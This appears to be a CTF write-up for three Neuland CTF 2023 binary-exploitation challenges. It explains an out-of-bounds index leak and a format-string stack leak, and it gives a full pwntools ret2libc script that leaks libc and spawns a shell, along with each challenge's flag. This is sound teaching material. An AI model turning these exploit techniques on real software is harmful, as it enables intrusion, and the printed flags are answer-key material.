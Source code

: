 ```yaml
---
title: "Neuland CTF 2023 Winter - PWN/Binary Exploitation"
authors: ["Neuland CTF Orga"]
date: 2023-12-09T21:00:00+02:00
draft: false
tags:
- ctf
- writeup
- security
- cyber
- cybersecurity
---
```


</br>

Download challenges: [Neuland CTF Repository](https://github.com/neuland-ingolstadt/Neuland-CTF-2023-Winter)

</br>

## Higher and Lower - Easy
*No one has guessed my number yet, maybe you can find another way to get the flag.*

[higher_lower.c](/files/neuland-ctf-12-2023/higher_lower.c)

</br>

The program is the well-known children's game higher or lower. However, as the author teases in the description, there is probably no way to win the game fairly. In the enclosed C code, the flag is initially defined and then referenced in the main. Furthermore, the inefficient design decision was made to use an array to select the numbers. Our guessed number is used as an index for this array, and the respective position is output. Since the flag variable in the stack is right next to the array, and the input is not sanitized, we might have a chance to query the flag above it. Depending on the compiler, we print the segment by calling index *-1* or *11*, which is no longer in the array but outputs the surrounding variables.

</br>

The flag is `nland{practical_application_abandoned}`.

</br>

## Secure4Sure - Easy
*Works as intended?*

[Secure4Sure.c](/files/neuland-ctf-12-2023/Secure4Sure.c)

</br>

We get C code, which appears to be the login for Secure4Sure. The user can enter an access code, and the program compares it with the hardcoded string at the beginning of the program. The user input looks like a suitable attack vector because it is printed later in the program. The fgets() function reads a line of the specified input stream and stores it in the buffer variable. These are the perfect conditions for a format string attack that uses printf() features. For example, the string to be output can be manipulated using special commands such as *%s* or *%d*. `printf("My %s is", name)`. *%s* which expects a string is replaced by the contents of the name variable. Printf() reads the previous address from the stack. So if we typed *printf(%s %s)* we would get the last two strings on the stack. However, if this input is longer than the maximum length defined in fgets(), we get a segment fault. Another string format feature is *%&lt;nth address>$s*, which jumps directly to the specified point in the stack. If we write *%p* as input, the program returns the pointer address. With this address, you can look at the stack and calculate the offset. A more straightforward method that does not require precise knowledge of the stack and how it works is fuzzing. Here, you can try out all offsets until the access code is output. With the locally used compiler, the correct offset was *%23$s*.

![](/images/neuland-ctf-12-2023/Secure4Sure.png)

</br>

The flag is `nland{DIN13432}`.

</br>

## Safe Return - Hard
Author: [Jonny](https://github.com/Baikuya)</br>

*There is always a safe place to return :).*

[Safe_Return.c](/files/neuland-ctf-12-2023/Safe_Return.c)

</br>

```
from pwn import *

p = process("./Safe_Return")
write_addr = 0x08049291
puts_addr = 0x08049245
hello_addr = 0x0804a008
got_read = 0x0804c004
p.send(b"A"*0x34)
p.recvuntil(b"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
p.recv(4)
ebp_bytes = p.recv(4)
ebp = u32(ebp_bytes)
print(hex(ebp))
safe_function = 0x080491b6
ret_nop=0x080491e4
p.recvuntil(b"\n")
payload = b"A"*0x48+p32(ebp)+p32(puts_addr)+p32(got_read)+p32(0)*2+p32(safe_function)
payload += b"A"*(0x80-len(payload))

p.send(payload)
read_leak = u32(p.clean(timeout=1)[:4])
read_offset = 0x0011e0a0
print(hex(read_leak))
libc_base = read_leak-read_offset
print(hex(libc_base))

system = libc_base + 0x0004f600
payload = b"A"*0x48+p32(ebp)+p32(system)+p32(0)+p32(ebp+20)+b"/bin/sh\x00"
payload += b"A"*(0x80-len(payload))
p.send(payload)

p.interactive()
```

</br>

The flag is `nland{G0_TO_J0NNy_And_Say_KinkoFe}`.
